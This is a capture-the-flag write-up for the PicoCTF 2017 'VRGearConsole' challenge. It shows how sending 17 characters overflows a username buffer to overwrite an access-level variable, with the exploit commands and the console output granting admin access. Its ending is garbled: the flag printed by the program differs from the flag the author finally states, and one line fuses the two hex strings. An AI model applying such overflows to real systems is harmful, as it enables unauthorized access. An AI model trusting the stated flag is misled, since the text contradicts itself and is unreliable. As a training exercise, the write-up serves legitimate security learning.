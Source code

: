 # PicoCTF_2017: VRGearConsole

**Category:** Binary Exploitation
**Points:** 95
**Description:**

>Here's the [VR gear admin console](vrgearconsole.c). See if you can figure out a way to log in. The problem is found here: /problems/1e50bd93be07ea1bca65a1a071e18eef

**Hint:**

>What happens if you read in more characters than the length of the username buffer?
You should look at an ascii table to see what character you need to choose.
Numbers are stored in little-endian format, which means that the lowest byte of the number is first.
"cat file - | vrgearconsole " will keep the pipe open for commands.

## Write-up
Looking at the source code, we see a gaping hole for buffer overflow.

    int accessLevel = 0xff;
    char username[16];
    char password[32];

So, to buffer overflow this, we need to fill up username past it's limits to overwrite accessLevel. One way to do that, is by simply sending `17` characters.

    $ echo "AAAAAAAAAAAAAAAA!" > ~/file
    $ cat ~/file - | ./vrgearconsole 
    +----------------------------------------+
    |                                        |
    |                                        |
    |                                        |
    |                                        |
    |  Welcome to the VR gear admin console  |
    |                                        |
    |                                        |
    |                                        |
    |                                        |
    +----------------------------------------+
    |                                        |
    |      Your account is not recognized    |
    |                                        |
    +----------------------------------------+




    Please login to continue...


    Username (max 15 characters): Password (max 31 characters):
    Your access level is: 0x00000021
    Admin access granted!
    The flag is in "flag.txt".
    cat flag.txt
    8b7ea70220f19ab662750a8710a552c4

Therefore, the flag is `8b7ea70220f19ab662750a8710a552c45a9aeea545615089851dd6a9b57a3139

Therefore, the flag is `5a9aeea545615089851dd6a9b57a3139`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE1NTk5NzU5MDksMTM0MDM3Mzc3Nl19
-->